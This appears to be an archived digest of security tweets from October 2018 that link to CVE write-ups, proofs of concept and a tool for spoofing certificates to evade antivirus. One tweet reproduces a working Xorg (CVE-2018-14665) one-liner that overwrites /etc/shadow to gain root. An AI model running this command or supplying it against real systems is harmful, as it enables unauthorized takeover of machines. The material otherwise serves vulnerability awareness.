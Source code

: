 # NinjaParanoid
**https://twitter.com/NinjaParanoid/status/1056080108786798592 _at 2018-10-27 07:08:13_**
<blockquote>
Wrote a new tool which creates a spoofed certificate of any online website and signs an Executable for AV Evasion. Works for both Windows and Linux.

https://t.co/oqrKueCBlE
🤟🤟🤟
#ScriptDotSh #Pentesting #Antivirus #Malware #Spoofing https://t.co/cUwIoUfmFM
</blockquote>

* https://github.com/paranoidninja/Pandoras-Box/blob/master/python/CarbonCopy.py

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+DqfzPuiX0AA5CyG.jpg" alt="http://pbs.twimg.com/media/DqfzPuiX0AA5CyG.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>382</code></td>
<td>Favorites: <code>716</code></td>
</table></tr>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055568290112831490 _at 2018-10-25 21:14:26_**
<blockquote>
OpenBSD #0day Xorg LPE via CVE-2018-14665 can be triggered from a remote SSH session, does not need to be on a local console. An attacker can literally take over impacted systems with 3 commands or less. exploit https://t.co/3FqgJPeCvO 🙄 https://t.co/8HCBXwBj5M
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+DqYhXoQX4AA9mvx.jpg" alt="http://pbs.twimg.com/media/DqYhXoQX4AA9mvx.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>425</code></td>
<td>Favorites: <code>548</code></td>
</table></tr>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055555359060807680 _at 2018-10-25 20:23:03_**
<blockquote>
Here is an exploit using CVE-2018-14665 to get local root for @openbsd - a 0day in 6.4 stable atm https://t.co/3FqgJPwdnm #hacktheplanet https://t.co/GSiKrjFLAg
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+DqYV_WbW4AAxrLF.jpg" alt="http://pbs.twimg.com/media/DqYV_WbW4AAxrLF.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>150</code></td>
</table></tr>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055517801224396800 _at 2018-10-25 17:53:49_**
<blockquote>
#CVE-2018-14665 - a LPE exploit via https://t.co/eax3fvaAjE fits in a tweet

cd /etc; Xorg -fp "root::16431:0:99999:7:::"  -logfile shadow  :1;su

Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
</blockquote>

* http://X.org

<table><tr>
<td>Quotes: <code>64</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>948</code></td>
<td>Favorites: <code>1370</code></td>
</table></tr>

---

# x0rz
**https://twitter.com/x0rz/status/1055467476560031749 _at 2018-10-25 14:33:50_**
<blockquote>
Technical Rundown of WebExec (CVE-2018-15442) - Cisco Webex Meetings Desktop App for Windows RCE with SYSTEM privileges https://t.co/lF4sJBfxs7 #WebExec #vulnerability https://t.co/cqK0FFw5rY
</blockquote>

* https://blog.skullsecurity.org/2018/technical-rundown-of-webexec

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+DqXF5lkWwAAK7Gk.jpg" alt="http://pbs.twimg.com/media/DqXF5lkWwAAK7Gk.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>143</code></td>
<td>Favorites: <code>192</code></td>
</table></tr>

---

# AlexaChenowith
**https://twitter.com/AlexaChenowith/status/1053043060194590728 _at 2018-10-18 22:00:04_**
<blockquote>
Git RCE - #Exploitation details and PoC (#CVE-2018-17456) https://t.co/kKtsWr3VSE
</blockquote>

* https://gist.github.com/joernchen/38dd6400199a542bc9660ea563dcf2b6

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>2</code></td>
</table></tr>

---

# AttackDetection
**https://twitter.com/AttackDetection/status/1050736465645326341 _at 2018-10-12 13:14:29_**
<blockquote>
Microsoft #Windows Shell #RCE via MS Edge 
CVE-2018-8495
Affected: Win 10, Server 2016
#Suricata rule: https://t.co/SXqyUTbA8w
</blockquote>

* https://github.com/ptresearch/AttackDetection/blob/master/CVE-2018-8495/cve-2018-8495.rules

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>17</code></td>
</table></tr>

---

# hkashfi
**https://twitter.com/hkashfi/status/1050164602527473666 _at 2018-10-10 23:22:07_**
<blockquote>
CVE-2018-8265 and CVE-2018-8493 will keep a lot of people busy this month! Remote TCP/IP stack info disclosure &amp; RCE on Exchange via an email. The Exchange bug, if reliable, is WAY more troublesome.
</blockquote>


<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>94</code></td>
<td>Favorites: <code>177</code></td>
</table></tr>

---

# ifsecure
**https://twitter.com/ifsecure/status/1049241990846734336 _at 2018-10-08 10:15:59_**
<blockquote>
Reading some recent Chakra changes and spotted this neat CFG bypass by @4b5f5f4b due to a bug in the JIT Server https://t.co/ZfCTxAmnGW
</blockquote>

* https://github.com/Microsoft/ChakraCore/commit/4196f8097afdcc5fe01ce2966871712fb24003a3#diff-313e10e84814b5cb12117bf9fc497566

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>58</code></td>
</table></tr>

---

# wugeej
**https://twitter.com/wugeej/status/1048009935957635072 _at 2018-10-05 00:40:14_**
<blockquote>
[PoC] [CVE-2017-11885] Microsoft Windows 2003 SP2 - 'RRAS' SMB Remote Code Execution

https://t.co/pxNjWomKx1
https://t.co/0GeZI86ZkO
</blockquote>

* https://www.exploit-db.com/exploits/44616/
* http://www.freebuf.com/vuls/185701.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</table></tr>

---

# Nicochaa_
**https://twitter.com/Nicochaa_/status/1047805644332564481 _at 2018-10-04 11:08:27_**
<blockquote>
"virtualenv Sandbox Escape". CVE-2018-17793. What the fuck... Soon we will have "Bash Code Execution", "cat File Disclosure" or "Firefox Server Side Request Forgery".

https://t.co/OpvKstPwyQ
</blockquote>

* https://github.com/pypa/virtualenv/issues/1207

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>3</code></td>
</table></tr>

---


